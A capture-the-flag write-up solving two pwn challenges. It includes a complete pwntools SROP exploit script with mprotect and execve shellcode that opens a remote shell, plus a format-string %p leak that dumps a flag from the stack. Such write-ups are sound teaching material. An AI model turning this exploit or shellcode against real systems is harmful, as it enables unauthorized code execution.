 # Sick ROP

First I look what `file` are we dealing with and see that this one is statically compiled.
`sick_rop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped`

Then I run checksec to see it's mitigations.

```bash
└─$ checksec --file=sick_rop  
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY  Fortified  Fortifiable  FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   10 Symbols        No     0          0            sick_rop
```

Spotting a buffer overflow immediately (the function puts 0x300 bytes on the stack but 0x20 bytes are reserved for our buffer.

```bash
000000000040102e <vuln>:
  40102e:       55                      push   rbp
  40102f:       48 89 e5                mov    rbp,rsp
  401032:       48 83 ec 20             sub    rsp,0x20
  401036:       49 89 e2                mov    r10,rsp
  401039:       68 00 03 00 00          push   0x300
  40103e:       41 52                   push   r10
  401040:       e8 bb ff ff ff          call   401000 <read>
  401045:       50                      push   rax
  401046:       41 52                   push   r10
  401048:       e8 ca ff ff ff          call   401017 <write>
  40104d:       c9                      leave
  40104e:       c3                      ret
```

As the name of this challenge suggest, there might be some ROP gadget building for this (since NX is enabled as well) so let's get into it.

Checking the gadgets available for this challenge that we have (`read`, `write`, `syscall`, `ret`).

```bash
0x0000000000401012 : and al, 0x10 ; syscall
0x000000000040100d : and al, 8 ; mov rdx, qword ptr [rsp + 0x10] ; syscall
0x0000000000401044 : call qword ptr [rax + 0x41]
0x000000000040104c : dec ecx ; ret
0x000000000040100c : je 0x401032 ; or byte ptr [rax - 0x75], cl ; push rsp ; and al, 0x10 ; syscall
0x0000000000401023 : je 0x401049 ; or byte ptr [rax - 0x75], cl ; push rsp ; and al, 0x10 ; syscall
0x0000000000401054 : jmp 0x40104f
0x000000000040104d : leave ; ret
0x0000000000401010 : mov edx, dword ptr [rsp + 0x10] ; syscall
0x000000000040100b : mov esi, dword ptr [rsp + 8] ; mov rdx, qword ptr [rsp + 0x10] ; syscall
0x000000000040100f : mov rdx, qword ptr [rsp + 0x10] ; syscall
0x000000000040100e : or byte ptr [rax - 0x75], cl ; push rsp ; and al, 0x10 ; syscall
0x0000000000401011 : push rsp ; and al, 0x10 ; syscall
0x0000000000401016 : ret
0x0000000000401049 : retf 0xffff
0x0000000000401014 : syscall
```

I was quite unsure at the first but then I looked into it and found out we can do SROP with these instead.
In SROP there is a `sys_rt_sigreturn` syscall that restores stack frame into registers.
Storing this we can call `mprotect`, rewrite permissions for stack execution and get a shell.	

Using [rchapman's syscall table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) as a reference for building a shellcode for `sys_rt_sigreturn` (rax = 0xf) and `sys_mprotect`.


Since we have plenty space for this we will craft the payload for overwriting `$RIP`
> offset + vuln_addr + syscall_ret + frame_padding
and then call `sys_rt_sigreturn`.

This configuration will now call `vuln()` function, add 0x15 (that should be in `$RAX` for this syscall to work properly). Reset the previously stored register configuration back and finally `syscall; ret`.

Adjusting correct offsets for overflowing the right bytes and then for the shellcode use `execve(/bin/bash)`

```python
#!/usr/bin/env python3
import sys
from pwn import *

context.binary = 'sick_rop'
elf = context.binary
rop = ROP(elf)
p = remote(sys.argv[1], sys.argv[2])

f = SigreturnFrame()
f.rax = 10            # sys_mprotect
f.rdi = elf.address
f.rsi = 0x4000        # size
f.rdx = 0b111         # rwx
f.rsp = 0x4010d8
f.rip = rop.find_gadget(['syscall', 'ret'])[0] # syscall ret;

payload  = b'A' * 40
payload += p64(elf.symbols.vuln)
payload += p64(rop.find_gadget(['syscall', 'ret'])[0] ) # syscall ret;
payload += bytes(f)

p.sendline(payload)
p.recv()

p.send(b'A' * 15) # sys_rt_sigreturn
p.recv()

shellcode = (b'\x48\x31\xf6\x56\x48\xbf\x2f\x62'
             b'\x69\x6e\x2f\x2f\x73\x68\x57\x54'
             b'\x5f\x6a\x3b\x58\x99\x0f\x05')
payload = b'A' * 40 + p64(0x4010e8) + shellcode
p.send(payload)
p.recv()

print(p.interactive())

```

# racecar

```bash
└─$ file racecar                                
racecar: ELF 32-bit LSB pie executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c5631a370f7704c44312f6692e1da56c25c1863c, not stripped
```

```bash
└─$ checksec --file=racecar         
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY  Fortified  Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   96 Symbols      No       0  	    3 		 racecar
```

Since all mitigations are enabled I am just looking for any leaks and I find `fgets`.

```c
...
char buf[0x2c];
fgets(&buf, 0x2c, fp);
read(0, eax_71, 0x170);
puts("\n\x1b[3mThe Man, the Myth, the …");
result = printf(eax_71);
```
There is a specific combination of inputs to reach this part of the code after running the binary:
any, any, 2, 2, 1
You need to create `flag.txt` locally to bypass the `if` above this code, then you are prompted with input for `fgets`. Here I leak pointer addresses with `%p` because the flag is on the stack.

```bash
[!] Do you have anything to say to the press after your big victory?                                                
>  %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
 0x584e3200 0x170 0x5662fdfa 0x11 0x3 0x26 0x2 0x1 0x5663096c 0x584e3200 0x584e3380 0x56630540 0x56630538 0xf7d6ee55 0x700f900 0x56630d58 0x56632f8c 0xff824128 0x5663038d 0x56630540 0x584e31a0 0x2 0x700f900 (nil) 0x56632f8c 0xff824148 0x56630441 (nil) (nil) (nil) 0x700f900 0xff824160 0xf7f47e14 (nil) 0xf7d39cc3 (nil) 0xff824214 0xf7d53029 0xf7d39cc3 0x1 0xff824214 0xff82421c 0xff824180 0xf7f47e14 0x566303e1 0x1 0xff824214 0xf7f47e14 0x56630490 0xf7fabb60 (nil) 0x163b73a2 0xb580b5b2 (nil) (nil) (nil) 0xf7fabb60 (nil) 0x700f900 0xf7faca60 0xf7d39c56 0xf7f47e14 0xf7d39d88 0xf7f76ac4 0x8 (nil) (nil) (nil) (nil) 0xf7d39d09 0x56632f8c 0x1
```

The just read it with correct endianness and convert to ASCII.




